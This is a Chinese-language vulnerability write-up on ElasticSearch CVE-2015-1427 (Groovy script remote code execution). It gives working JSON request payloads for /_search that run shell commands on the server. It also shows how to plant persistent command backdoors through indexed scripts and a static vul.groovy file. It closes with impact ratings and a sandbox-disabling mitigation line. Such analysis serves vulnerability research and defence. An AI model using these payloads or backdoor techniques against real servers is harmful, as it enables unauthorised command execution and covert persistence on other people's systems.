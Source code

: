 # ElasticSearch 远程代码执行漏洞分析（CVE-2015-1427）&高级利用方法

0x00 漏洞概述
---------

* * *

要结合上一篇文章[《ElasticSearch Groovy脚本远程代码执行漏洞分析（CVE-2015-1427）》](http://drops.wooyun.org/papers/5107)一起来看，我第一次知道CVE-2015-1427这个漏洞是在2月13日（春节放假前一天），但是当时想着过年，而且觉得应该是Groovy自身的问题，就也没太在意。知道前两天兰少（lupin）问我有没有看这个漏洞，说他找到了绕过了沙盒的方法，才跑去看。

我跟lupin玩这个洞的思路不太一样，而且漏洞原理在他的文章里已经说的很清楚了，我这篇文章主要侧重这个漏洞利用的各种玩法。

0x01 漏洞原理
---------

* * *

漏洞原因很简单，由于沙盒代码黑名单中的Java危险方法不全，从而导致恶意用户仍可以使用反射的方法来执行Java代码。这就完了？当然不是！由于Elasticsearch开发团队没有完全认知Groovy的强大，以为仅仅防止用户调用Java反射就可以免于被攻击，这真是太好笑了，我们来看下Groovy对自己的描述：

![enter image description here](http://drops.javaweb.org/uploads/images/87930a99d8333c04cb3bc656be85a8e0a9a241c2.jpg)

没错！Groovy是一款开发语言，这意味着我们完全可以在不使用Java的前提下实现代码执行。如果仅仅是沙盒的问题，那么修补黑白名单到攻击者没办法绕过沙盒使用Java反射就好了，但是一种语言要怎么靠黑白名单来限制它的绝大部分功能？所以没有把Groovy当做一种编程语言是这问题的真正原因。

0x02 漏洞利用
---------

* * *

漏洞利用其实也很简单，我们只需要参照官方提供的script使用说明来执行脚本就可以了。[官方文档](http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/modules-scripting.html)提供了两个方法让我们直接执行脚本代码。

我们先来看第一种方式——直接执行脚本，这种方式也就是目前大家都在使用的方式。使用起来也很简单，直接向/_search这个URL提供如下POST内容：

```
{"script_fields": {"my_field": {"script": "def command=\"netstat -an\";def res=command.execute().text;res","lang":"groovy"}}}

```

效果如下图所示：

![enter image description here](http://drops.javaweb.org/uploads/images/9485f86aed35d200c8aea15913f320cdf233969a.jpg)

官方文档除了直接执行脚本，还提供了一种预先存储脚本用于以后执行的方式——脚本索引，这种方法使用起来比较繁琐，下面我们先来看官方提供的示例：

```
//建立脚本索引
curl -XPOST localhost:9200/_scripts/groovy/indexedCalculateScore -d '{
     "script": "log(_score * 2) + my_modifier"
}'
//使用脚本索引，并执行脚本索引中的代码
curl -XPOST localhost:9200/_search -d '{
  "query": {
    "function_score": {
      "query": {
        "match": {
          "body": "foo"
        }
      },
      "functions": [
        {
          "script_score": {
            "script_id": "indexedCalculateScore",
            "lang" : "groovy",
            "params": {
              "my_modifier": 8
            }
          }
        }
      ]
    }
  }
}'

```

下面我们来看实际操作，首先是建立脚本索引：

```
{
     "script": "def command=\"netstat -an\";def res=command.execute().text;res"
}

```

然后是执行刚刚建立的脚本索引，由于官方给的示例中不可以返回字符串，所以这里我修改了POST提交的内容。

```
{
    "query" : {
       "match_all":{
        }
    },
    "script_fields" : {
        "test1" : {
            "script_id" : "indexedCalculateScore",
            "lang":"groovy"
        }
    }
}

```

这种方法相比较直接执行脚本多了一个存储的步骤，但是却不失为一种留后门的好方法。如果我们这样建立一条脚本索引：

```
{
     "script": "def res=command.execute().text;res"
}

```

然后这样执行它：

```
{
    "query" : {
       "match_all":{
        }
    },
    "script_fields" : {
        "test1" : {
            "script_id" : "indexedCalculateScore",
            "lang":"groovy",
            "params":{
                 "command":"netstat -an"
             }
        }
    }
}

```

完美的一个shell命令后门就完成了，效果如下图所示：

![enter image description here](http://drops.javaweb.org/uploads/images/af95689738982e1da4c94abc3c642c37cdc9fcc3.jpg)

不过使用脚本索引建立的后门有一个问题，就是需要在动态脚本开启的状态下。而官方提供给我们的最后一个调用脚本的方式——调用静态脚本，刚刚好可以帮助我们维持后门的持久性。

使用方法如下：在config目录下建立一个名为scripts的目录，把脚本文件放进去，然后用script_file替换上面的script_id字段就好了。这里做一个简单的例子，在scripts里放上我们刚才的的那个shell后门的代码，并命名为vul.groovy，然后POST如下数据进行搜索：

```
{
    "script_fields": {
        "my_field": {
            "file": "vul",
            "params": {
                  "command":"netstat -an"
            }
        }
    }
}

```

如果你足够仔细的话，可能会发现上面的代码中我使用的file而不是官方示例的script_file，因为我测试环境是1.3.5和1.4.10，而官方所提供的示例应该是针对MVEL表达式时代的静态表达式使用方法，所以有些时候不看代码是无法发现真相的→_→。

0x03 思维壁垒
---------

* * *

在和lupin一开始讨论这个漏洞的时候，发现我们思考的方式完全不一样。他在跟我说怎么怎么绕过沙盒，而我却不断的问他沙盒在哪里？为什么我没有感觉到沙盒的存在？从lupin[这篇文章](http://drops.wooyun.org/papers/5107)描述的细节和下面官方对这个漏洞描述的内容以及官方对于漏洞的后期修复，再到这两天的全民反射来看，大家明显是都被带到沟里去了，把一个好好的代码执行漏洞玩成了命令执行漏洞。

> The vulnerabilities allow an attacker to construct Groovy scripts that escape the sandbox and execute shell commands as the user running the Elasticsearch Java VM.

如果让我用一句话来评论目前的大家使用的PoC的话，“用C的方式来利用一个PHP代码执行”，这句话再合适不过了。我在[《一种新的攻击方法——Java-Web-Expression-Language-Injection》](http://drops.wooyun.org/tips/2494)中提到的JELI的这种漏洞形式（或者说攻击方法），是由于开发者对于Java上层建筑的表达式认知度不够而导致漏洞的出现。Struts2没有想到Ognl可以执行Java代码，Elasticsearch同样没有想到Groovy可以实现任意Java功能。

所以在这里我觉得有必要提醒大家一下，小心思维壁垒的出现。

0x04 漏洞总结
---------

* * *

### 漏洞小结

1.  影响范围个人评价为“高”，ElasticSearch在大数据时代得到广泛的使用，而且此漏洞覆盖十个左右的版本，所以影响范围还是很广的。
    
2.  危害性个人评价为“极高”，此漏洞值需要使用默认的动态脚本配置便可被利用，攻击者可以利用这个漏洞getshell。
    

### 防护方案

关闭groovy沙盒以已停止动态脚本的使用：

```
script.groovy.sandbox.enabled: false

```

官方已经在最新版本中修复此问题，最新版下载链接为： http://www.elasticsearch.org/overview/elkdownloads/